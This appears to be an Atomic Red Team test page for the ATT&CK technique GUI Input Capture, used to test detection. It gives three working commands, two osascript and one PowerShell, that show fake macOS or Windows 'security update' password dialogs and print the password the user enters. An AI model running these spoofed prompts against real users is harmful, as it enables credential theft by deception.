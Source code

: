 # T1056.002 - Input Capture: GUI Input Capture
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1056/002)
<blockquote>Adversaries may mimic common operating system GUI components to prompt users for credentials with a seemingly legitimate prompt. When programs are executed that need additional privileges than are present in the current user context, it is common for the operating system to prompt the user for proper credentials to authorize the elevated privileges for the task (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002)).

Adversaries may mimic this functionality to prompt users for credentials with a seemingly legitimate prompt for a number of reasons that mimic normal usage, such as a fake installer requiring additional access or a fake malware removal suite.(Citation: OSX Malware Exploits MacKeeper) This type of prompt can be used to collect credentials via various languages such as [AppleScript](https://attack.mitre.org/techniques/T1059/002)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: OSX Keydnap malware)(Citation: Spoofing credential dialogs) and [PowerShell](https://attack.mitre.org/techniques/T1059/001).(Citation: LogRhythm Do You Trust Oct 2014)(Citation: Enigma Phishing for Credentials Jan 2015)(Citation: Spoofing credential dialogs) On Linux systems adversaries may launch dialog boxes prompting users for credentials from malicious shell scripts or the command line (i.e. [Unix Shell](https://attack.mitre.org/techniques/T1059/004)).(Citation: Spoofing credential dialogs)

Adversaries may also mimic common software authentication requests, such as those from browsers or email clients. This may also be paired with user activity monitoring (i.e., [Browser Information Discovery](https://attack.mitre.org/techniques/T1217) and/or [Application Window Discovery](https://attack.mitre.org/techniques/T1010)) to spoof prompts when users are naturally accessing sensitive sites/data.</blockquote>

## Atomic Tests

- [Atomic Test #1 - AppleScript - Prompt User for Password](#atomic-test-1---applescript---prompt-user-for-password)

- [Atomic Test #2 - PowerShell - Prompt User for Password](#atomic-test-2---powershell---prompt-user-for-password)

- [Atomic Test #3 - AppleScript - Spoofing a credential prompt using osascript](#atomic-test-3---applescript---spoofing-a-credential-prompt-using-osascript)


<br/>

## Atomic Test #1 - AppleScript - Prompt User for Password
Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS


**auto_generated_guid:** 76628574-0bc1-4646-8fe2-8f4427b47d15






#### Attack Commands: Run with `bash`! 


```bash
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```






<br/>
<br/>

## Atomic Test #2 - PowerShell - Prompt User for Password
Prompt User for Password (Local Phishing) as seen in Stitch RAT. Upon execution, a window will appear for the user to enter their credentials.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

**Supported Platforms:** Windows


**auto_generated_guid:** 2b162bfd-0928-4d4c-9ec3-4d9f88374b52






#### Attack Commands: Run with `powershell`! 


```powershell
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```






<br/>
<br/>

## Atomic Test #3 - AppleScript - Spoofing a credential prompt using osascript
Prompt user for password without requiring permissions to send Apple events to System Settings.
https://embracethered.com/blog/posts/2021/spoofing-credential-dialogs/

**Supported Platforms:** macOS


**auto_generated_guid:** b7037b89-947a-427a-ba29-e7e9f09bc045






#### Attack Commands: Run with `bash`! 


```bash
PWD_SPOOF=$(osascript -e 'display dialog "To perform a security update MacOS needs your passphrase." with title "MacOS Security Update" default answer "" with icon stop with hidden answer')
echo $PWD_SPOOF
```






<br/>
